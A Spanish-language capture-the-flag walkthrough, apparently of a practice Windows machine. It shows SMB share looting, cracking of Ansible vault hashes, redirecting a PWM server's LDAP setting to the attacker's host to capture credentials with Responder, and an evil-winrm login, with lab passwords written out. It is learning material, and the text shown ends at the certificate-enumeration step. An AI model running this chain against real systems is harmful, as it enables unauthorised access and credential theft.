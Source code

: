 Hacemos el escaneo de nmap:
![[Pasted image 20240114151712.png]]
Comenzamos con la enumeración de SMB por el puerto 445, donde nos encontramos con dos recursos compartidos que pueden ser interesantes, por lo que revisamos el recurso de Department Shares y no hay nada interesante:
![[Pasted image 20240114151814.png]]
Pero si miramos el otro recurso compartido de Development, sí que encontramos cosas, donde corre un servicio de Ansible:
```bash
smbclient -N //10.10.11.222/Development/
```
![[Pasted image 20240114151937.png]]
Nos descargamos todo el recurso compartido de Ansible para poder analizarlo con más detalle:
```bash
smbclient -N //10.10.11.222/Development/ -c "recurse; prompt; mget *"
```
![[Pasted image 20240114152402.png]]
Y dentro del directorio /Automation/Ansible/PWM/ansible_inventory nos encontramos con unas credenciales de ansible:
```bash
administrator:Welcome1
```
![[Pasted image 20240114152458.png]]
Y dentro de esta otra ruta nos encontramos con unos hashes de ansible dentro del fichero main.yml:
```
/Automation/Ansible/PWM/defaults/main.yml
```
![[Pasted image 20240114152611.png]]
Y también tenemos unas credenciales de tomcat:
```bash
admin:T0mc@tAdm1n
robot:T0mc@tR00t
```
![[Pasted image 20240114152752.png]]
Comenzamos con el cracking de los hashes de ansible, donde vamos a copiar cada uno de ellos con la siguiente estructura:
![[Pasted image 20240114153939.png]]
Ahora extraemos el hash de cada uno de estos archivos para crackearlo con john the ripper:
![[Pasted image 20240114154019.png]]
Aplicamos el cracking y obtenemos las siguientes credenciales, donde vemos la misma contraseña:
```bash
!@#$%^&*
```
![[Pasted image 20240114154237.png]]
Ya podremos desencriptar cada uno de los hashes de ansible con la herramienta ansible-vault, la cual debemos de instalarla con pip previamente:
pip install ansible-vault
```bash
svc_pwm
pWm_@dm!N_!23
DevT3st@123
```
![[Pasted image 20240114154357.png]]
Accedemos al puerto 8443, donde si intentamos iniciar sesión nos sale el siguiente error de directorio:
![[Pasted image 20240114154553.png]]
Hacemos clic en configuration editor:
![[Pasted image 20240114154820.png]]
Y nos pide una contraseña, la cual si probamos con las que hemos crackeado anteriormente, esta sería la correcta:
```bash
pWm_@dm!N_!23
```
![[Pasted image 20240114154910.png]]
Hacemos clic en cancel y nos encontramos con esta web:
![[Pasted image 20240114154953.png]]
Nos bajamos el fichero de configuración:
![[Pasted image 20240114155234.png]]
Dentro de este archivo debemos de localizar la siguiente línea, que es donde se autentica el servidor ldap:
![[Pasted image 20240114155433.png]]
Y la reemplazamos por esta otra, poniendo nuestra IP y un puerto:
```bash
<value>ldap://10.10.16.7:389</value>
```
![[Pasted image 20240114155833.png]]
Y subimos la nueva configuración al servidor:
![[Pasted image 20240114155623.png]]
Una vez hecho esto, podemos ponernos en escucha con el responder y habremos capturado el hash del usuario svc_ldap:
```bash
responder -I tun0
```
![[Pasted image 20240114160003.png]]
Estas son las credenciales:
```bash
svc_ldap:lDaP_1n_th3_cle4r!
```
Y con evil-winrm podemos autenticarnos:
```bash
evil-winrm -i 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```
![[Pasted image 20240114160126.png]]
Dentro de la raíz del servidor nos encontramos con un directorio interesante, el cual se llama Certs:
![[Pasted image 20240114160355.png]]
Hay una herramienta para detectar si un certificado es vulnerable, la cual se llama certify.exe:
![[Pasted image 20240114160835.png]]
